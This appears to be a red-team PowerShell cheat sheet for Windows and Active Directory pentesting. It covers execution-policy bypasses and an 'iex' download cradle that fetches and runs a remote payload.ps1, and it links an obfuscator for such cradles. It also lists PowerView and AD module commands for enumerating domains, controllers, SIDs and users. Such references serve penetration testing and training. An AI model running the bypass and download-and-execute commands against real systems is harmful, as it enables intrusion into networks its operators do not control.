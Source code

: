 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  

## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter * -Properties *  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  
  
